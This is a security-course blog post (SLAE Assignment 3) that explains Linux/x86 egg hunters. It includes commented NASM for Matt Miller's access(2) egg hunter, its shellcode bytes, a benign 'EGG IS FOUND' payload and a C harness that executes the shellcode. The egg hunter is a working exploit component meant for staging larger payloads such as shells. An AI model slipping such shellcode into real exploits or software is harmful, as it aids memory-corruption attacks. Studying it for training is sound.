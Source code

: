 ```yaml
---
layout: post
title: SLAE Assignment  3 - Egg Hunter (Linux/x86)
---
```


The third assigment is to study about Egg Hunters and implement a working demo of egg hunters with configurable payloads. So, what is an **Egg Hunter**?!.
> An egghunter is a short piece of code which is safely able to search the Virtual Address Space for
an “egg” – a short string signifying the beginning of a larger payload. The egghunter code will
usually include an error handling mechanism for dealing with access to non allocated memory
ranges.

<!-- more -->

Often during exploit research, we may have control over a small amount of space, say 50 bytes. But in most cases, this much space is not  enough to accomodate a reverse shell or or bind shell. We may observe that a larger space is available somewhere else enough to accomodate a larger payload. But its location in memory is not known. Here is where egg hunters come in to play. A unique mark (EGG) is prepended before the shellcode and the egghunter will safely search the virtual address space for this egg. Once the egg is found the egghunter will jump to the larger payload followed by the egg.

There is wonderful paper regarding egg hunter implementations on both Linux and Windows platforms - [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). I found this very comprehensive and easy to follow. For Linux, the author - Matt Miller (skape) - explains in detail 3 implementaions of egghunter, each with their Pros and Cons. I will be using the second implementation of egg hunter in the aforementioned paper.

As described in the paper, the three requirements of an egg hunter are:

1. **It must be robust** - This requirement is used to express the fact that the egg hunter must be capable of searching through memory regions that are invalid and would otherwise crash the application if they were to be dereferenced improperly. It must also be capable of searching for the egg anywhere in memory.

2. **It must be small** - Given the scope of this paper, size is a principal requirement for the egg hunters as they must be able to go where no other payload would be able to fit when used in conjunction with an exploit. The smaller the better.

3. **It should be fast** - In order to avoid sitting idly for minutes while the egg hunter does its task, the methods used to search VAS should be as quick as possible, without violating the first requirement or second requirements without proper justification.

So, without further ado, lets look at one of the egg hunter implementations.

### Matt Miller's "access(2) - revisited" Egg hunter

The reason why I chose this implementaion is that it does not require the egg itself to be executable assembly, opening up a wider range of possible eggs to be used when searching, thus making it much more robust. In this implementation an **eight byte egg** is used when doing the searching. The reason for this stems from the fact that the implementations for the egg hunting algorithms tend to have a four byte version of the key stored once in the searching code itself, thus it might be possible if one were to use a four byte version of the key to accidentaly run into the egg hunter itself vice running into the expected buffer.

So, in the following implementation of egg hunter we are searching for two consecutive occurrances EGG (0x50905090).
```
EGG
EGG
<Larger Shellcode>
```

The egg hunter must be capable of searching through memory regions. This is where the ```access(2)``` system call is helpful. The real purpose of ```access(2)``` system call is to check and see if the current process has the specific access rights to a given file on disk. The man page entry for ```access(2)``` is as follows:
```
int access(const char *pathname, int mode);
```
The ```pathname``` pointer is the argument that will be used to do the address validation. The system call number for ```access(2)``` is defined in ```/usr/include/i386-linux-gnu/asm/unistd_32.h``` as follows:
```
#define __NR_access 33
```
When a system call encounters an invalid memory address, most will return the EFAULT (-14)error code to indicate that a pointer provided to the system call was not valid. This logic is applied in this egg hunter.

```nasm
;
; Description	: Matt Miller's access(2) - revisited Egg Hunter 
; File 		: egghunter.nasm
;


global _start

section .text
	_start:
		
		
		xor edx,edx			; EDX holds the pointer that is to be validated by the access system call
	
		next_page:
			or dx,0xfff		; page alignment logic
						; allows the hunting code to move up in PAGE SIZE
                           			; increments vice doing in single byte increments.
		
			next_address:
				inc edx
	
				; validating eight bytes of contiguous memory in a single swoop
				; The reason that it works in all cases is because the implementation
				; will increment by PAGE SIZE when it encounters invalid addresses, thus it’s
				; impossible that edx plus four could be valid and edx itself not be valid.
			
				lea ebx,[edx+0x4]

				push byte +0x21
				pop eax			; EAX = 33 = access()
				int 0x80

				; if memory pointed by ebx is not accessible, 
        	    		; then access() syscall returns value 0xfffffff2 (-14) EFAULT to EAX
				; compare the lower bytes of EAX with 0xf2

				cmp al,0xf2
				jz next_page	; pointer not valid

		; pointer is valid, search for egg
		
		mov eax,0x50905090	; EGG = 0x50905090
		mov edi,edx			; EDX has the valid pointer, copy it to edi
		scasd				; check for first appearance of EGG
        					; compare EAX with contents of memory pointed by EDI,
    						; EDI is incremented automatically by 4 bytes after SCASD (Even if scasd comparison are not equal)
		jnz next_address	; EGG not found, got to next address in page
		scasd			; Check for consecutive second appearance of EGG
		jnz next_address	; EGG not found, got to next address in page
		jmp edi			; we found egg consecutively two times, now EDI  = EDX + 8 = start of shellcode, jump to it
```

Assemble, Link the egghunter assembly file and Dump shellcode from the executable using ```objdump```. Later we will put this in a c file to test the egg hunter.
```
// egg hunter shellcode
// EGG : 0x50905090
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
```
The following assembly code prints the string "EGG IS FOUND" onto stdout.

```nasm
;
; Author 	: RIZAL MUHAMMED (UB3RSiCK)
; Description 	: Print EGG IS FOUND
;

global _start
section .text
	_start:
		xor eax, eax
		mov al, 0x4			; write syscall
		
		xor ebx, ebx
		mov bl, 0x1			; write to stdout
		
		xor ecx, ecx
		jmp short get_me_buffer_address
			here_is_your_buffer:
				pop ecx		; now ecx will have address of message

		xor edx, edx
		mov dl, 0xd			; param3 how many bytes to write
		int 0x80

		; exit the program

		xor eax, eax			; exit system call - #define __NR_exit 1
		mov al, 0x1
		int 0x80

		get_me_buffer_address:
			call here_is_your_buffer				; when call is executed, address of message is
			message db "EGG IS FOUND", 0xA			; pushed on to the stack

```
Assemble, Link the above assembly code and Dump the shellcode from executable.
```
"\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xc9\xeb\x0d\x59\x31\xd2\xb2\x0d\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xee\xff\xff\xff\x45\x47\x47\x20\x49\x53\x20\x46\x4f\x55\x4e\x44\x0a";
```

Insert the egg hunter shellcode and the shellcode to print "EGG IS FOUND" to the following c file. Different shellcode payloads of different sizes can be used. The place where to put in shellcode is marked in the template file.
```c
#include<stdio.h>
#include<string.h>

unsigned char egghunter[] = \
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";


unsigned char shellcode[] = \
"\x90\x50\x90\x50" //egg mark 1
"\x90\x50\x90\x50" //egg mark 2

// Place second stage larger payload here
// Print EGG IS FOUND shellcode
"\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xc9\xeb\x0d\x59\x31\xd2\xb2\x0d\xcd\x80\x31\xc0"
"\xb0\x01\xcd\x80\xe8\xee\xff\xff\xff\x45\x47\x47\x20\x49\x53\x20\x46\x4f\x55\x4e\x44\x0a";

main()
{
        printf("Egghunter Shellcode Length:  %d\n", strlen(egghunter));
        int (*ret)() = (int(*)())egghunter;
        ret();

}
```
Compile the c file and execute.
![Running Egg Hunter](/assets/asn-3-egg-found.PNG)

We can now use larger shellcodes, just insert shellcode in the above c file and compile. And we are done. Nice. 

This blog post has been created for completing the requirements of the [SLAE (Linux/x86)](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) certification.

Student ID: **SLAE - 933**
